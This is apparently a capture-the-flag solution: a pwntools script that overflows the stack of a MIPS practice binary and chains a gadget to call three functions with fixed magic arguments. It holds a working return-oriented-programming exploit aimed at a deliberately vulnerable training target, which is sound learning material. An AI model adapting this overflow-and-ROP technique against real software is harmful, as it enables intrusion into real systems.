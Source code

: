 
```python
from pwn import *
context.binary = elf = ELF('callme_mipsel')

'''
0x00400bb0: lw $a0, 0x10($sp); lw $a1, 0xc($sp); lw $a2, 8($sp); lw $t9, 4($sp); jalr $t9; nop; 
'''

u_g = 0x00400bb0
offset = 4*9

a0 = 0xdeadbeef
a1 = 0xcafebabe
a2 = 0xd00df00d 
jump1 = elf.sym['callme_one']
jump2 = elf.sym['callme_two']
jump3 = elf.sym['callme_three']

arg = p32(a2)+p32(a1)+p32(a0)

payload = b'A'*offset + p32(u_g)+p32(0x1)+p32(jump1)+arg + p32(u_g) + p32(0x1) +p32(jump2) + arg + p32(u_g) + p32(0x1) +p32(jump3) + arg

#p = gdb.debug(elf.path)
p = elf.process()

p.recv()
p.sendline(payload)
log.info(p.recvall())
```


